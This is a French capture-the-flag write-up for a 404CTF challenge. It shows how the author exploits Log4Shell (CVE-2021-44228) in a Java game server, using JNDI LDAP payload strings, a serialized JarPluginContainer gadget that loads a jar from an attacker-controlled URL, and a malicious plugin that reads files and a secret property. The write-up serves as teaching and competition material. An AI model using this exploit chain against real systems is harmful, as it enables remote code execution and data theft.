 # Misc / Joutes, Arches, Vallées et Arbalètes
Points: 1000
Difficulté: Extrême

# Énoncé
Bonjour agent.

Le groupe Hallebarde semble avoir lancé une campagne de recrutement et vise des scientifiques.

Nous sommes parvenus à identifier une de leur méthodes : ils ont mis au point un jeu vidéo multijoueur en ligne de commande leur permettant de sélectionner les meilleurs éléments. Peut-être sont-ils nostalgiques des années 80. Nous avons identifié une adresse hébergeant une instance de ce serveur de jeu, vous pouvez vous y connecter à l'aide des informations ci-dessous.
Par ailleurs, les renseignements humains ont réussi à mettre la main sur une clef USB contenant de la documentation de ce programme, nous vous la mettons à disposition.

Pouvez-vous investiguer ce service et voir s'il est possible de le compromettre et d'en tirer des informations sensibles ?

Auteur : Smyler#7078

`nc challenge.404ctf.fr 31579`

Fichiers fournis: RecrumentGameSDK.zip

# Première analyse
En se connectant au challenge, on est accueilli par un jeu textuel assez basique. Il y a différentes pièces, objets et personnage. Un des personnages demande le flag. Le jeu est court à faire le tour et je me dis vite qu'il doit s'agir d'autre chose.
Lors de la partie, on remarque qu'on reçoit des logs en plus en des retours de base de l'application. Cette observation ainsi que le SDK en Java fourni m'a fait penser à log4shell.

Cela se vérifie en entrant comme nom d'utilisateur `${java:runtime}` ce qui nous donne  `OpenJDK Runtime Environment (build 17.0.3+7-Ubuntu-0ubuntu0.18.04.1) from Private Build` dans les logs.
Maintenant que l'on a une piste d'exploitation il va me falloir comprendre exactement comment fonctionne cette attaque.

# Exploitation
## Log4Shell (CVE-2021-44228)
> Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default. From version 2.16.0 (along with 2.12.2, 2.12.3, and 2.3.1), this functionality has been completely removed. Note that this vulnerability is specific to log4j-core and does not affect log4net, log4cxx, or other Apache Logging Services projects.

Donc on peut executer du code héberger depuis un LDAP et donc potentiellement trouver le flag de cette manière. Il nous faut donc un serveur LDAP pour renvoyer le bytecode Java à injecter ainsi que le payload à donner à l'application. Le payload est très simplement et nécessite uniquement l'accès à notre serveur LDAP et peut s'écrire comme cela: `${jndi:ldap://#{IP}:#{PORT}/object}`.

## Recherche d'un gadget

En cherchant un peu je tombe sur cet outil (https://github.com/pimps/JNDI-Exploit-Kit) qui contient pas mal de payload pour exploiter cette faille. Mais en lisant un peu les prérequis (pas toujours bien clair sur le répo) et les comparant à ce que contient le serveur du jeu (fourni dans le SDK), j'en arrive vite à la conclusion qu'aucun payload n'est compatible avec notre challenge. Il nous faut donc trouver un "gadget"; c'est à dire une classe qui une fois désérialisé par Java nous donnera une execution de code. On se concentrant dans le code du serveur, on tombe assez rapidement sur une classe serializable JarPluginContainer.

```java
public class JarPluginContainer extends PluginContainer {

  public void load(Game game) throws CorruptedPluginException, PluginLoadingException {
    URLClassLoader loader = new URLClassLoader(new URL[] { this.url }, getClass().getClassLoader());
    load(game, loader);
    this.loaded = true;
  }

  /* ... */

  private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
    in.defaultReadObject();
    if (this.loaded && this.plugin == null)
      try {
        PluginLoader.LOGGER.warn("Deserializing a plugin that does not support serialization, loading it manually!");
        PluginLoader.LOGGER.warn("Offender: " + this.metadata);
        PluginLoader.LOGGER.warn("Please implement serialization in your plugins if you wish to use plugin dumps.");
        load((Game)RecrutementGameLauncher.getGame());
      } catch (PluginLoadingException e) {
        throw new IllegalStateException("Failed to re-load a plugin after deserialization!", e);
      }  
  }
  }
```

La classe dont il hérite:
```java
public abstract class PluginContainer implements Comparable<PluginContainer>, Serializable {
  protected static final Class<Plugin> PLUGIN_CLASS = Plugin.class;

  protected final PluginMetadata metadata;

  protected Plugin plugin;

  public PluginContainer(PluginMetadata metadata) {
    this.metadata = metadata;
  }

  protected void load(Game game, ClassLoader loader) throws CorruptedPluginException, PluginLoadingException {
    try {
      Class<?> clazz = loader.loadClass(this.metadata.mainClass());
      if (!PLUGIN_CLASS.isAssignableFrom(clazz))
        throw new CorruptedPluginException("Class " + clazz + " does not properly implement the plugin interface"); 
      Constructor<?> constructor = clazz.getDeclaredConstructor(new Class[0]);
      this.plugin = (Plugin)constructor.newInstance(new Object[0]);
      this.plugin.onLoad(game, this.metadata, Logger.getLogger(this.metadata.id()));
    } catch (ClassNotFoundException e) {
      throw new CorruptedPluginException("Wrong main plugin class: " + this.metadata.mainClass());
    } catch (NoSuchMethodException e) {
      throw new CorruptedPluginException("Main plugin class " + this.metadata.mainClass() + "does not have an empty constructor and cannot be instantiated");
    } catch (InstantiationException e) {
      throw new CorruptedPluginException("Main plugin class " + this.metadata.mainClass() + " cannot be instantiated");
    } catch (Throwable t) {
      throw new PluginLoadingException("Encountered an exception when instantiating plugin", t);
    } 
  }
```

On note également l'utilisation de URLClassLoader en tant que ClassLoader ce qui nous permet de préciser une URL d'où charger le fichier Java qui nous intéresse. 
Donc il ne nous reste plus qu'à sérialiser une instance de JarPluginContainer avec les valeurs qui nous arrangent: des metadata cohérentes avec la classe à charger après et l'URL qui pointe vers un fichier que l'on contrôle. 
```java
PluginMetadata meta = new PluginMetadata("injected", "Payload", "0.1");
URL url = new URL("http://<IP>:8000/");


JarPluginContainer jpc = new JarPluginContainer(meta, url, true);

writePluginToFile("JarPluginContainer.ser", jpc);
```

## Le jeu est à nous !
Maintenant que nous avons ce fichier, on peut utiliser JNDI-Exploit-Kit pour l'envoyer: `java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -P JarPluginContainer.ser`. L'url menant à ce payload est ${jndi:ldap://<IP>:1389/serial/CustomPayload}. En injectant ce fichier, on reçoit une connexion sur notre serveur HTTP, il ne reste plus qu'à coder un plugin à charger dans le jeu.

```java
    @Override
    public void onLoad(Game game, PluginMetadata metadata, Logger logger) {
        instance = this;
        this.metadata = metadata;
        this.logger = logger;

        this.logger.info("Payload started version: " + metadata.version());
    
        game.registerCommand("b64", this::base64file, "Display the base64 of a file");
        game.registerCommand("p", this::plugins, "Manage plugins");
        game.registerCommand("flag", this::flag, "Get the flag");
    }
```
En suivant le SDK ainsi qu'en décompilant le serveur, il est assez simple de coder un plugin en suivant les fonctions attendues. On récupère le call sur onLoad ce qui nous permet d'enregistrer nos fonctions dans le jeu. Ces quelques commandes nous permettent de consulter la liste des plugins et d'en récupérer les fichiers jar. Après analyse du fichier npcs.jar, on découvre que le secret n'est pas dedans mais dans une variable d'environnement ce qui permet de coder une dernière fonction pour le récupérer.

```java
    public void flag(Game game, CommandExecutor commandExecutor, String... strings){
        if (commandExecutor instanceof User user){
            user.sendMessage("Flag: " + System.getProperty("ctf404.flag.cjgJF4GCxj2QD5Lg"));
        }
    }
```
Ce qui nous donne `404CTF{j4v4_3s7_c00l_m41s_zes7_m1euX_Qu4nd_c3z7_z4f3}`.



